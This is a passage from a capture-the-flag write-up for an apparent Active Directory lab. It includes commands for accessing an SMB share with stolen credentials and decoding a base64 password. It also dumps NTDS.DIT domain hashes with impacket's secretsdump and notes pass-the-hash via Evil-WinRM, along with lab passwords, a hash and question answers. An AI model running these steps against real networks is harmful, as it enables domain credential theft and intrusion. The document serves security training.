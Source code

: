 Answer: `6`

### There is one particular share that we have access to that contains a text file. Which share is it?

```
smbclient \\\\spookysec.local\\backup -U svc-admin@spookysec.local --password management2005
smb: \> ls
```

Answer: `backup`

### What is the content of the file?

Answer: `YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`

### Decoding the contents of the file, what is the full contents?

https://gchq.github.io/CyberChef/
(Either use magic or its base 64 encoded)

Answer: `backup@spookysec.local:backup2517860`


# Task 7 Domain Privilege Escalation Elevating Privileges within the Domain

### What method allowed us to dump NTDS.DIT?

`python ~/Desktop/impacket/examples/secretsdump.py -just-dc spookysec.local/backup@10.10.104.207`

```
Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
```

Answer: `DRSUAPI`

### What is the Administrators NTLM hash?

Answer: `0e0363213e37b94221497260b0bcb4fc`


### What method of attack could allow us to authenticate as the user without the password?

Answer: `pass the hash`

### Using a tool called Evil-WinRM what option will allow us to use a hash?

Answer: `-H`
